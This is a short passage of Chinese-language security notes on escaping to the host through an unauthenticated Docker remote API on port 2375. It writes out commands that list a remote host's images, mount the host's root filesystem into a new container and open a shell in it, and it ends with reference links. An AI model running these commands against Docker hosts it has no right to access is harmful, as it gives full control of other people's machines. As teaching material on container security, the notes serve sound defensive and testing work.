 ## 0x04 docker remote api未授权
参考:  
<https://security.tencent.com/index.php/blog/msg/174>  
docker api的默认端口是2375，如果存在未授权访问，我们就可以创建一个特权容器或者挂载目录等方式进行逃逸:  
```bash
#列出镜像
docker -H tcp://ip:2375 images

#把宿主机根目录挂载到容器中：
docker -H tcp://ip:2375 run -it -v /:/mnt/ ubuntu /bin/bash


#进入容器
docker -H tcp://ip:2375 exec -it CONTAINERID bash
```
## 参考
- https://security.tencent.com/index.php/blog/msg/183
- https://docs.docker.com/engine/api/sdk/examples/
- https://github.com/neargle/cloud_native_security_test_case/blob/master/privileged/1-host-ps.sh
- https://gist.github.com/dapplebeforedawn/7733a6486f02d21f68053c0c1e43431f
- https://wohin.me/rong-qi-tao-yi-gong-fang-xi-lie-yi-tao-yi-ji-zhu-gai-lan/#4-2-procfs-
- https://security.tencent.com/index.php/blog/msg/174
- https://www.kernel.org/doc/Documentation/cgroup-v1/devices.txt


